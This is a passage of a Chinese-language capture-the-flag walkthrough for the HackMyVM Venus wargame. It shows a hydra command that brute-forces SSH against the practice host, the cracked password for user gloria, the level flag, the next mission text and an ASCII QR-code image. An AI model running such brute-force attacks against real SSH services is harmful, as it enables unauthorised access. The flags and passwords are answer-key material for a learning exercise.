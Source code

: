 hydra 执行 ssh 爆破

```bash title="hydra -l gloria -P pazz.txt ssh://venus.hackmyvm.eu:5000"
[5000][ssh] host: venus.hackmyvm.eu   login: gloria   password: v7xUVE2e5bjUcxw
1 of 1 target successfully completed, 1 valid password found
```

## Stage - gloria

### flag - 35

```plaintext
8===RZIkEtaEp18tLslTopJj===D~~
```

### 任务目标

```plaintext title="/pwned/gloria/mission.txt"
################
# MISSION 0x36 #
################

## EN ##
User alora likes drawings, that's why she saved her password as ...
```

### 行动

```bash title="ls -lah"
total 36K
drwxr-x--- 2 root   gloria 4.0K Jul 26  2023 .
drwxr-xr-x 1 root   root   4.0K Jul 26  2023 ..
-rw-r--r-- 1 gloria gloria  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 gloria gloria 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 gloria gloria  807 Apr 23  2023 .profile
-rw-r----- 1 root   gloria   31 Jul 26  2023 flagz.txt
-rw-r----- 1 root   gloria 1.7K Jul 26  2023 image
-rw-r----- 1 root   gloria  222 Jul 26  2023 mission.txt
```

```plaintext title="./image"
##########################################################
##########################################################
##########################################################
##########################################################
########              ##########  ##              ########
########  ##########  ##    ##  ####  ##########  ########
########  ##      ##  ##  ##  ######  ##      ##  ########
########  ##      ##  ####  ########  ##      ##  ########
########  ##      ##  ##        ####  ##      ##  ########
########  ##########  ##        ####  ##########  ########
########              ##  ##  ##  ##              ########
########################  ####  ##########################
########    ##  ####    ####  ##  ##      ##    ##########
############    ######  ##    ##      ##          ########
########    ##    ##  ##  ##            ####  ##  ########
##############      ##  ##    ######  ##    ####  ########
############    ##      ##  ########    ##  ##  ##########
########################    ####    ##  ##  ####  ########
########              ##    ####            ##  ##########
########  ##########  ######  ##########  ####  ##########
########  ##      ##  ####  ##      ######        ########
########  ##      ##  ##    ##  ######  ##  ####  ########
########  ##      ##  ####          ##    ##  ##  ########
########  ##########  ##      ####  ##  ##################
########              ##  ##                    ##########
```